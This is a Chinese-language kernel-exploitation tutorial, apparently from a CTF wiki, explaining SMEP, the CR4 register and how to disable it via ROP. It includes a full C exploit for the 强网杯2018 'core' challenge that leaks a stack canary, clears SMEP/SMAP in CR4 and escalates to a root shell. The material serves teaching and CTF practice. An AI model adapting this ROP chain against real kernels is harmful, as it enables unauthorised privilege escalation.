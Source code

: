 # bypass-smep

## SMEP 

为了防止 `ret2usr` 攻击，内核开发者提出了 `smep` 保护，smep 全称 `Supervisor Mode Execution Protection`，是内核的一种保护措施，作用是当 CPU 处于 `ring0` 模式时，执行 `用户空间的代码` 会触发页错误；这个保护在 arm 中被称为 `PXN`。

通过 qemu 启动内核时的选项可以判断是否开启了 smep 保护。
```bash
CISCN2017_babydriver [master●●] grep smep ./boot.sh
qemu-system-x86_64 -initrd rootfs.cpio -kernel bzImage -append 'console=ttyS0 root=/dev/ram oops=panic panic=1' -enable-kvm -monitor /dev/null -m 64M --nographic  -smp cores=1,threads=1 -cpu kvm64,+smep
```

也可以通过
```bash
CISCN2017_babydriver [master●●] grep smep /proc/cpuinfo 
flags		: fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush dts acpi mmx fxsr sse sse2 ss ht tm pbe syscall nx pdpe1gb rdtscp lm constant_tsc arch_perfmon pebs bts rep_good nopl xtopology nonstop_tsc cpuid aperfmperf pni pclmulqdq dtes64 monitor ds_cpl vmx est tm2 ssse3 sdbg fma cx16 xtpr pdcm pcid sse4_1 sse4_2 x2apic movbe popcnt aes xsave avx f16c rdrand lahf_lm abm 3dnowprefetch cpuid_fault epb invpcid_single pti tpr_shadow vnmi flexpriority ept vpid fsgsbase tsc_adjust bmi1 avx2 smep bmi2 erms invpcid rdseed adx smap intel_pt xsaveopt dtherm ida arat pln pts
......
```
检测该保护是否开启。

### smep 和 CR4 寄存器

系统根据 CR4 寄存器的值判断是否开启 smep 保护，当 CR4 寄存器的第 20 位是 1 时，保护开启；是 0 时，保护关闭。

![smep](./figure/smep.jpg)

例如，当
```
$CR4 = 0x1407f0 = 000 1 0100 0000 0111 1111 0000
```
时，smep 保护开启。而 CR4 寄存器是可以通过 mov 指令修改的，因此只需要
```asm
mov cr4, 0x1407e0
# 0x1407e0 = 101 0 0000 0011 1111 00000
```
即可关闭 smep 保护。

搜索一下从 `vmlinux` 中提取出的 gadget，很容易就能达到这个目的。

- 如何查看 CR4 寄存器的值？
	- gdb 无法查看 cr4 寄存器的值，可以通过 kernel crash 时的信息查看。为了关闭 smep 保护，常用一个固定值 `0x6f0`，即 `mov cr4, 0x6f0`。

## 例题：强网杯2018 - core

这一次我们在启动脚本中添加上 smep 与 smap 的选项：

```sh
qemu-system-x86_64 \
-m 128M \
-cpu qemu64-v1,+smep,+smap \
-kernel ./bzImage \
-initrd  ./rootfs.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
```

之后我们重新运行之前的 ret2usr 的 exp，发现直接 kernel panic 了，这是因为我们想要执行用户空间的函数指针，触发了 SMEP 保护

![image.png](figure/ret2usr_failed.png)

那么这里我们只需要通过 ROP 来关闭 SMEP&SMAP 即可继续 ret2usr，这里笔者用与运算将 SMEP 与 SMAP 的两位给清除掉了，实际上直接给 cr4 赋值 `0x6f0` 也是可以的（通常关了以后都是这个值）

前面我们使用 swapgs 和 iret 两条指令来返回用户态，这一次我们直接使用 `swapgs_restore_regs_and_return_to_usermode` 来返回用户态

最终的 exp 如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

#define POP_RDI_RET 0xffffffff81000b2f
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RCX_RET 0xffffffff81021e53
#define POP_RAX_RET 0xffffffff810520cf
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define MOV_RAX_CR4_ADD_RSP_8_POP_RBP_RET 0xffffffff8106669c
#define AND_RAX_RDI_RET 0xffffffff8102b45b
#define MOV_CR4_RAX_PUSH_RCX_POPFQ_RET 0xffffffff81002515
#define PUSHFQ_POP_RBX_RET 0xffffffff81131da4
#define IRETQ 0xffffffff813eb448
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81a008da

size_t commit_creds = NULL, prepare_kernel_cred = NULL;

void * (*prepare_kernel_cred_ptr)(void *);
int (*commit_creds_ptr)(void *);

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void getRootPrivilige(void)
{
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

void getRootShell(void)
{   
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }

    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

void coreRead(int fd, char * buf)
{
    ioctl(fd, 0x6677889B, buf);
}

void setOffValue(int fd, size_t off)
{
    ioctl(fd, 0x6677889C, off);
}

void coreCopyFunc(int fd, size_t nbytes)
{
    ioctl(fd, 0x6677889A, nbytes);
}

int main(int argc, char ** argv)
{
    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");
    saveStatus();

    int fd = open("/proc/core", 2);
    if(fd <0)
    {
        printf("\033[31m\033[1m[x] Failed to open the file: /proc/core !\033[0m\n");
        exit(-1);
    }

    //get the addr
    FILE* sym_table_fd = fopen("/tmp/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds_ptr = commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred_ptr = prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }

    size_t offset = commit_creds - 0xffffffff8109c8e0;

    // get the canary
    size_t canary;
    setOffValue(fd, 64);
    coreRead(fd, buf);
    canary = ((size_t *)buf)[0];

    //construct the ropchain
    size_t rop_chain[0x100], i = 0;
    for(; i < 10;i++)
        rop_chain[i] = canary;

    rop_chain[i++] = MOV_RAX_CR4_ADD_RSP_8_POP_RBP_RET + offset;
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = POP_RDI_RET + offset;
    rop_chain[i++] = 0xffffffffffcfffff;
    rop_chain[i++] = AND_RAX_RDI_RET + offset;
    rop_chain[i++] = MOV_CR4_RAX_PUSH_RCX_POPFQ_RET + offset;
    rop_chain[i++] = (size_t)getRootPrivilige;
    rop_chain[i++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 22 + offset;
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = (size_t)getRootShell;
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp;
    rop_chain[i++] = user_ss;

    write(fd, rop_chain, 0x800);
    coreCopyFunc(fd, 0xffffffffffff0000 | (0x100));
}
```


